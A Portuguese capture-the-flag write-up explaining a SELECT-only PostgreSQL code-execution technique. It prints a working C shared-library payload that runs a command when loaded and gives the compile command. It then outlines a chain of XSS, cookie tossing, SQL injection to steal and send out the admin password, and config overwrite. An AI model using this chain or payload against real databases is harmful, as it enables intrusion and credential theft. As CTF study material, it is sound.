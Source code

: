 Já era quase meia-noite e eu tentando executar dois comandos SQL **sem usar `;`**.

Foi aí que encontrei um post sensacional do `@adeadfed`: [_PostgreSQL SELECT-only RCE_](https://adeadfed.com/posts/postgresql-select-only-rce/). Esse post tinha exatamente o que eu precisava. Mas já era tarde, eu tava com sono, e precisei reler algumas vezes até entender tudo.

A ideia é sobrescrever o `postgresql.conf` com um payload customizado usando funções `lo` (Large Object) do PostgreSQL.

O código em C usado foi esse:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

__attribute__((constructor)) void run_on_load() {
    FILE *fp = popen("/readflag", "r");
    if (!fp) return;

    char flag[256] = {0};
    if (fgets(flag, sizeof(flag) - 1, fp)) {
        flag[strcspn(flag, "\n")] = 0; // remove newline
    }
    pclose(fp);

    if (strlen(flag) == 0) return;

    // build the curl command
    char cmd[512];
    snprintf(cmd, sizeof(cmd),
        "echo '%s' > /tmp/flag",
        flag);

    system(cmd);
}
```

> Esse código foi gerado pelo Gpeto. A ideia era usar `curl` pra enviar a flag pro meu servidor ngrok, mas já tava tarde então só copiei a flag pra `/tmp` mesmo.

Compilei com:
`gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c`

Usei um container Docker pra isso.
> **Nota:** Foi necessário instalar o pacote `postgresql-dev`. Usei: `apk add postgresql-dev`

Depois, criei um script em Python pra automatizar tudo:
Fluxo completo:
1. Iniciar servidor para receber a senha do admin
2. Enviar código de autorização pro bot
3. Acessar `/my-submissions` pra disparar o `XSS`
4. Fazer cookie tossing com o `connect.sid`
5. Forçar logout do bot
6. Acessar `/my-submissions` novamente e explorar a `SQLi` em `/table` para acessar a tabela `users` e coletar a senha do admin e envia para o nosso servidor.
7. Logar como admin
8. Subir o `postgresql.conf`
9. Subir o `payload.so`
10. Executar `pg_reload_conf()`
11. Ler a flag com `pg_read_file('/tmp/flag')`
